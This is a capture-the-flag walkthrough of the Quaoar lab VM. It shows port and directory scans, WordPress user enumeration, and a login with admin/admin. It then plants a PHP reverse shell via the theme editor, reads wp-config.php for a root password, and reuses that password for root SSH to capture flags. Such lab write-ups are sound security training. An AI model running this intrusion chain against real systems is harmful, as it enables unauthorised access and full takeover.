 # ctf-Quaorar
Opening with NMAP :
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d0:0a:61:d5:d0:3a:38:c2:67:c3:c3:42:8f:ae:ab:e5 (DSA)
|   2048 bc:e0:3b:ef:97:99:9a:8b:9e:96:cf:02:cd:f1:5e:dc (RSA)
|_  256 8c:73:46:83:98:8f:0d:f7:f5:c8:e4:58:68:0f:80:75 (ECDSA)
53/tcp  open  domain      ISC BIND 9.8.1-P1
| dns-nsid: 
|_  bind.version: 9.8.1-P1
80/tcp  open  http        Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_Hackers
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
110/tcp open  pop3?
139/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
993/tcp open  ssl/imap    Dovecot imapd
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T04:32:43
|_Not valid after:  2026-10-07T04:32:43
|_ssl-date: 2017-10-16T05:14:13+00:00; 0s from scanner time.
995/tcp open  ssl/pop3s?
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T04:32:43
|_Not valid after:  2026-10-07T04:32:43
MAC Address: 08:00:27:77:97:F9 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

and one dirb //dirb http://192.168.1.96/   /home/boax/Téléchargements/common.txt


Entering directory: http://192.168.1.96/wordpress/ ----
==> DIRECTORY: http://192.168.1.96/wordpress/index/                            
+ http://192.168.1.96/wordpress/index.php (CODE:301|SIZE:0)                    
+ http://192.168.1.96/wordpress/license (CODE:200|SIZE:19930)                  
+ http://192.168.1.96/wordpress/readme (CODE:200|SIZE:7195)                    
==> DIRECTORY: http://192.168.1.96/wordpress/wp-admin/                         
+ http://192.168.1.96/wordpress/wp-blog-header (CODE:200|SIZE:0)               
+ http://192.168.1.96/wordpress/wp-config (CODE:200|SIZE:0)                    
==> DIRECTORY: http://192.168.1.96/wordpress/wp-content/                       
+ http://192.168.1.96/wordpress/wp-cron (CODE:200|SIZE:0)                      
==> DIRECTORY: http://192.168.1.96/wordpress/wp-includes/                      
+ http://192.168.1.96/wordpress/wp-links-opml (CODE:200|SIZE:217)              
+ http://192.168.1.96/wordpress/wp-load (CODE:200|SIZE:0)                      
+ http://192.168.1.96/wordpress/wp-login (CODE:200|SIZE:2530)                  
+ http://192.168.1.96/wordpress/wp-mail (CODE:500|SIZE:3011)                   
+ http://192.168.1.96/wordpress/wp-settings (CODE:500|SIZE:0)                  
+ http://192.168.1.96/wordpress/wp-signup (CODE:302|SIZE:0)                    
+ http://192.168.1.96/wordpress/wp-trackback (CODE:200|SIZE:135)               
+ http://192.168.1.96/wordpress/xmlrpc (CODE:200|SIZE:42)                      
+ http://192.168.1.96/wordpress/xmlrpc.php (CODE:200|SIZE:42)     


Site buided with wordpress !

wpscan attack /

ruby wpscan.rb -u http://192.168.1.96/wordpress --enumerate u
_______________________________________________________________
        __          _______   _____                  
        \ \        / /  __ \ / ____|                 
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \ 
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team 
                       Version 2.9.4-dev
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[+] URL: http://192.168.1.96/wordpress/
[+] Started: Thu Oct 19 20:14:14 2017

[+] Enumerating usernames ...
[+] Identified the following 2 user/s:
    +----+--------+--------+
    | Id | Login  | Name   |
    +----+--------+--------+
    | 1  | admin  | admin  |
    | 2  | wpuser | wpuser |
    +----+--------+--------+
 
 Log on http://192.168.1.96/wordpress/wp-login.php?loggedout=true
with admin/admin .

Then , on the dashboard , on Apparence / Editor / Header , we can put a reverseShell  ( http://pentestmonkey.net/tools/web-shells/php-reverse-shell ) . Set up with ur IP and with for example the port 4444 open .

So listen on 4444 :
which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Quaoar:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@Quaoar:/$ ls -lat
ls -lat
total 85
drwxr-xr-x  15 root root  4000 Oct 19  2017 dev
drwxr-xr-x 117 root root  4096 Oct 19  2017 etc
drwxr-xr-x  13 root root     0 Oct 19  2017 sys
drwxrwxrwt   3 root root  4096 Oct 19 14:23 tmp
drwxr-xr-x  24 root root   780 Oct 19 14:12 run
dr-xr-xr-x 107 root root     0 Oct 19 14:12 proc
drwxr-xr-x  13 root root  4096 Jan 15  2017 var
drwx------   6 root root  4096 Nov 30  2016 root
drwxr-xr-x   4 root root  1024 Oct 28  2016 boot
drwxr-xr-x   2 root root  4096 Oct 28  2016 sbin
drwxr-xr-x   3 root root  4096 Oct 24  2016 home
drwxr-xr-x  22 root root  4096 Oct  7  2016 .
drwxr-xr-x  22 root root  4096 Oct  7  2016 ..
-rw-------   1 root root  1024 Oct  7  2016 .rnd
drwxr-xr-x  21 root root  4096 Oct  7  2016 lib
drwxr-xr-x   2 root root  4096 Oct  7  2016 bin
lrwxrwxrwx   1 root root    33 Oct  7  2016 vmlinuz -> boot/vmlinuz-3.2.0-23-generic-pae
lrwxrwxrwx   1 root root    37 Oct  7  2016 initrd.img -> /boot/initrd.img-3.2.0-23-generic-pae
drwxr-xr-x   3 root root  4096 Oct  7  2016 media
drwxr-xr-x  10 root root  4096 Oct  7  2016 usr
drwxr-xr-x   2 root root  4096 Oct  7  2016 opt
drwxr-xr-x   2 root root  4096 Oct  7  2016 srv
drwx------   2 root root 16384 Oct  7  2016 lost+found
drwxr-xr-x   2 root root  4096 Apr 19  2012 mnt
drwxr-xr-x   2 root root  4096 Mar  5  2012 selinux

further ...

cd home
www-data@Quaoar:/home$ ls
ls
wpadmin
www-data@Quaoar:/home$ cd wpadmin
cd wpadmin
www-data@Quaoar:/home/wpadmin$ ls
ls
flag.txt
www-data@Quaoar:/home/wpadmin$ cat flag.txt
cat flag.txt
2bafe61f03117ac66a73c3c514de796e

The flag1 !!!

So , lets go on :

cd var
www-data@Quaoar:/var$ ls
ls
backups  cache	crash  lib  local  lock  log  mail  opt  run  spool  tmp  www
www-data@Quaoar:/var$ cd www
cd www
www-data@Quaoar:/var/www$ ls
ls
CHANGELOG			hack-planet-high-definition-mobile.jpg
COPYING				hacker-manifesto-ethical.jpg
Hack_The_Planet.jpg		hacking.jpg
Hack_The_Planet2.jpg		hsperfdata_tomcat6
Hack_The_Planet3.jpg		index.html
INSTALL				pososibo-ethical-hacking-hack-fond.jpg
LICENSE				robots.txt
Quaoar.jpg			tomcat6-tomcat6-tmp
README.md			upload
hack-planet-1280-amox-zone.jpg	wordpress
www-data@Quaoar:/var/www$ cd wordpress 
cd wordpress
www-data@Quaoar:/var/www/wordpress$ ls
ls
index.php	 wp-blog-header.php    wp-cron.php	  wp-mail.php
license.txt	 wp-comments-post.php  wp-includes	  wp-settings.php
readme.html	 wp-config-sample.php  wp-links-opml.php  wp-signup.php
wp-activate.php  wp-config.php	       wp-load.php	  wp-trackback.php
wp-admin	 wp-content	       wp-login.php	  xmlrpc.php

and cat wp-config.php
cat wp-config.php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, WordPress Language, and ABSPATH. You can find more information
 * by visiting {@link http://codex.wordpress.org/Editing_wp-config.php Editing
 * wp-config.php} Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'rootpassword!');

give credentials for ssh connection (root / rootpassword! ) :


ssh root@192.168.1.96
The authenticity of host '192.168.1.96 (192.168.1.23)' can't be established.
ECDSA key fingerprint is SHA256:+ODdJgfptUyyVzKI9wDm804SlXxzmb4/BiKsHCnHGeg.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.1.23' (ECDSA) to the list of known hosts.
root@192.168.1.23's password: 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Thu Oct 19 14:36:35 EDT 2017

  System load:  0.0               Processes:             102
  Usage of /:   29.8% of 7.21GB   Users logged in:       0
  Memory usage: 55%               IP address for eth0:   192.168.1.23
  Swap usage:   0%                IP address for virbr0: 192.168.122.1

  Graph this data and manage this system at https://landscape.canonical.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Sun Jan 15 11:23:45 2017 from desktop-g0lhb7o.snolet.com
root@Quaoar:~# id
uid=0(root) gid=0(root) groups=0(root)

and :ls -lat
total 48
-rw-------  1 root root  368 Jan 15  2017 .bash_history
drwx------  6 root root 4096 Nov 30  2016 .
-rw-------  1 root root 4740 Nov 30  2016 .viminfo
drwx------  2 root root 4096 Oct 26  2016 .ssh
----------  1 root root   33 Oct 22  2016 flag.txt
drwx------  2 root root 4096 Oct 15  2016 .cache
drwxr-xr-x 22 root root 4096 Oct  7  2016 ..
drwx------  2 root root 4096 Oct  7  2016 .aptitude
drwxr-xr-x  8 root root 4096 Jan 29  2015 vmware-tools-distrib
-rw-r--r--  1 root root 3106 Apr 19  2012 .bashrc
-rw-r--r--  1 root root  140 Apr 19  2012 .profile

the last flag :

cat flag.txt   

the flag2 :e3f9ec016e3598c5eec11fd3d73f6fb


TY ! 










